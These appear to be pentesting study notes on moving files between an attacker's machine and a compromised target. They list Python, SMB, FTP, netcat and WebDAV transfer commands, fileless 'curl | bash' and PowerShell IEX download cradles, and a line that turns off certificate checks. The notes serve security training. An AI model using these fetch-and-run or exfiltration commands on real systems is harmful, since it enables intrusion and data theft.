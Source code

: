 # Transfer files 🛅

[![filetransfers](../../../_badges/htb/filetransfers.svg)](https://academy.hackthebox.com/course/preview/file-transfers)

<div class="row row-cols-lg-2"><div>

We will often want to transfer files between your machine, and the target. Mostly during privilege escalation and post-exploitation.

According to the current environment capabilities <small>(e.g., installed tools)</small> and restrictions <small>(e.g. firewall)</small>, we will have to use different techniques.

The most common approaches from the host to the target:

* Copy-pasting <small>(short text files)</small> ✂️
* Python web server <small>(using wget/cURL/iwr as client)</small> 🐍

📚 There are also fileless techniques to avoid storing the file on the target, such as `curl xxx | bash` or other similar tricks.
</div><div>

To transfer a file from the target to the host, it's often harder and more complex. Some common approaches are:

* Copy-pasting <small>(short text files)</small> ✂️
* Moving files to the webserver directory <small>(if applicable)</small> 📂
* Python web server <small>(often available on Linux)</small> 🐍
* Using services such as SCP/FTP/SMB/NFS/... <small>(if present)</small> 🎡
* Using installed tools such as nc, php, etc. 🧯

We may use checksum functions/commands to check that the file was correctly transferred. [Refer to cryptography/hashing/checksum](/cybersecurity/cryptography/algorithms/hashing/index.md#file-checksum).
</div></div>

<hr class="sep-both">

## Sending a file to others 🔒

<i class="small">On the "host" where the file is:</i>

<div class="row row-cols-lg-2"><div>

#### Python webserver 🐍

Start a webserver allowing clients to download the files. You may try with `python2`, and `python3` if `python` is unavailable.

```shell!
$ python2.7 -m SimpleHTTPServer
$ python -m http.server port # port > 1023 | expose pwd
$ python [...] --directory /path/to/server/root
$ sudo python -m http.server port # port <= 1023
```

#### Upload To SMB Share

You can use `copy` to upload a file to a client SMB share:

```shell!
PS> copy file.txt \\HOST_IP\share_name\path
PS> robocopy file.txt \\HOST_IP\share_name\path
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Upload To FTP Server

You can use the URL `ftp://HOST_IP/<target_file_name>` with a HTTP upload tool or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> (New-Object Net.WebClient).UploadFile('ftp://X/abc', 'C:\path\to\abc')
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> put <file>
ftp> bye
```

#### Other webservers 🎡

You may leverage an installed web development tool/package to start a webserver allowing clients to download files:

```shell!
$ php -S 127.0.0.1:8080 # php
$ http-server -p 8080   # node "http-server" package
$ ruby -run -ehttpd . -p8080
```
</div></div>

<hr class="sep-both">

## Receiving/Fetching a file 🔑

<i class="small">On the "client" that need the file:</i>

<div class="row row-cols-lg-2"><div>

#### Using Common Utilities

The `wget` command is available on both Linux and Windows.

```shell!
$ # Download on Linux
$ wget HOST_IP:port/script.sh -o /tmp/script.sh
PS> # Download on Windows
PS> wget HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

You may have to use `curl` or `iws` (Windows-only) instead of `wget`.

```shell!
$ curl HOST_IP:port/script.sh -o /tmp/script.sh
PS> curl HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
PS> iws HOST_IP:port/script.ps1 -o $Env:TMP/script.ps1
```

#### Host A Simple Upload Server

Run a webserver with an upload file form, such as the one below:

```ps
$ sudo pip3 install uploadserver
$ python3 -m uploadserver
$ python3 -m uploadserver 443 --server-certificate cert.pem
```

And make the client use it to upload the file.

#### Download From SMB Share

You can use `copy` to download a file from a share:

```shell!
PS> copy \\HOST_IP\share_name\file_path
PS> robocopy \\HOST_IP\share_name\file_path .
```

If guest access is not allowed, try [mounting the share](/operating-systems/networking/protocols/smb.md).
</div><div>

#### Download From FTP Server

You can use the URL `ftp://HOST_IP/<file_name>` with a HTTP client such as `wget` or the [FTP](/operating-systems/networking/protocols/ftp.md) PowerShell client:

```shell!
PS> ftp -v -n
ftp> open IP
ftp> USER anonymous
password: <blank>
ftp> dir # list files
ftp> get <file>
ftp> bye
```

#### Window Utilities

A few windows commands/tools we can use:

```shell!
PS> # all are said to be faster than iwr/curl/wget
PS> (New-Object Net.WebClient).DownloadFile('URL','OUTPUT')
PS> (New-Object Net.WebClient).DownloadFileAsync('URL','OUTPUT')
PS> IEX (New-Object Net.WebClient).DownloadString('URL')
```

➡️ See also: [DownloadCradles.ps1](https://gist.github.com/HarmJ0y/bb48307ffa663256e239) <small>(0.3k ⭐)</small>. Add the `-UseBasicParsing` in case of IE errors. To disable SSL/TLS:

```shell!
PS> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
</div></div>

<hr class="sep-both">

## Additional Elements

<div class="row row-cols-lg-2"><div>

#### services 🕳️

You may use FTP/SCP/NFS/SMB/... if applicable.

* [Simple SMB Server](/operating-systems/networking/protocols/smb.md) (Linux Host)
* [Simple FTP Server](/operating-systems/networking/protocols/ftp.md#simple-ftp-server) (Linux Host)

An alternative to SMB that uses HTTP is WebDav.

```shell!
$ sudo apt install python3-wsgidav
$ wsgidav --host=0.0.0.0 --port=8080 --root=/tmp/smbshare --auth=anonymous
PS> iwr -Uri "http:/IP:8080/<file>"
PS> copy \\IP\DavWWWRoot\<file> # 👻 // didn't work
PS> # unrelated: davtest -url http://IP
PS> # unrelated: curl -X MOVE -H 'Destination:xxx.php' 'xxx.txt'
```

We may be able to mount a drive using RDP. On Windows, in the options of the RDP client, we can configure the mapping too.

```shell!
$ rdesktop [...] -r disk:linux='/path/to/folder'
$ xfreerdp [...] /drive:linux,/path/to/folder
```
</div><div>

#### netcat 🐈

```ps
# host
$ nc CLIENT_IP port < file.sh
# client
$ nc -lvp port > file.sh
$ # --recv-only | -q 0 | --send-only
```

<br>

#### Copy-paste ✂️

Copy-paste may be an option, but not every file can be copy-pasted. One trick is to encode the file using [base64](/tools-and-frameworks/knowledge/encoding/index.md#base64---), copy-paste the base64 payload on a file on the target, and decode the file on the target.
</div></div>

<hr class="sep-both">

## Fileless payloads 👻

<div class="row row-cols-lg-2"><div>

On Linux, we often use a pipe (`|`):

```shell!
$ curl [...] | bash
$ wget -qO- [...] | bash
$ [...] | python3
```
</div><div>

On Windows, we often use:

```shell!
PS> IEX [...]
PS> [...] | IEX
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [Windows File Transfer Cheatsheet](https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/)
* [croc](https://github.com/schollz/croc)
* [PSUpload](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1)
* `/dev/TCP`
* can use cURL to upload files
* can use openssl like nc

```
$ openssl s_server -quiet -accept 80 -cert cert.pem -key key.pem < file
$ openssl s_client -connect IP -quiet > file
```
</div><div>
</div></div>